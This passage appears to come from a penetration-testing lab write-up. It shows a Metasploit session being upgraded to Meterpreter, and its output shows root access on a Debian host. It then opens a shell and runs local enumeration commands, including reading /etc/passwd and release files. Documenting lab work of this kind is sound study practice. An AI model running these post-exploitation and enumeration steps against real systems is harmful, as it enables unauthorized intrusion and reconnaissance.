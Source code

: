 ```bash
sessions -u 1
sessions 2
```

* Some local enumeration

```bash
meterpreter > sysinfo 
    Computer     : 192.57.42.3
    OS           : Debian 8.11 (Linux 5.4.0-190-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux
    
meterpreter > getuid 
    Server username: uid=0, gid=0, euid=0, egid=0
    
meterpreter > shell 
    Process 36 created.
    Channel 1 created.
```

```bash
/bin/bash -i
whoami

# Enumerate Users
cat /etc/passwd

groups root

cat /etc/*issue

cat /etc/*release

uname -a
```
